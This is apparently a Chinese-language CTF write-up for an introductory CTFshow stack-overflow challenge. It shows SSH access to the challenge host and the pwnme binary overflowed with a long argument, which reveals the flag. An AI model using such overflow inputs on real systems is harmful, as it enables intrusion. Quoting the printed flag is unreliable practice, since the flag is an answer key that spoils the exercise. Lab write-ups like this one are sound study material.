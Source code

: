 ```
    (2 additional names omitted)
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[pwn.challenge.ctf.show]:28177,[124.223.158.81]:28177' (ED25519) to the list of known hosts.
ctfshow@pwn.challenge.ctf.show's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-163-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

$
```

发现得到一个交互程序，看看有啥：
```
$ ls
pwnme
```

按照我们之前的想法，第一个命令是执行程序，第二个命令是超长数据：
```
$ ./pwnme aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    ▄▄▄▄   ▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄            ▄▄                           
  ██▀▀▀▀█  ▀▀▀██▀▀▀  ██▀▀▀▀▀▀            ██                           
 ██▀          ██     ██        ▄▄█████▄  ██▄████▄   ▄████▄  ██      ██
 ██           ██     ███████   ██▄▄▄▄ ▀  ██▀   ██  ██▀  ▀██ ▀█  ██  █▀
 ██▄          ██     ██         ▀▀▀▀██▄  ██    ██  ██    ██  ██▄██▄██ 
  ██▄▄▄▄█     ██     ██        █▄▄▄▄▄██  ██    ██  ▀██▄▄██▀  ▀██  ██▀ 
    ▀▀▀▀      ▀▀     ▀▀         ▀▀▀▀▀▀   ▀▀    ▀▀    ▀▀▀▀     ▀▀  ▀▀  
    * *************************************                           
    * Classify: CTFshow --- PWN --- 入门                              
    * Type  : Stack_Overflow                                          
    * Site  : https://ctf.show/                                       
    * Hint  : See what the program does!                              
    * *************************************                           
Where is flag?

ctfshow{a2e4b0b8-8dd2-4c18-acba-fb47dee8786e}
```

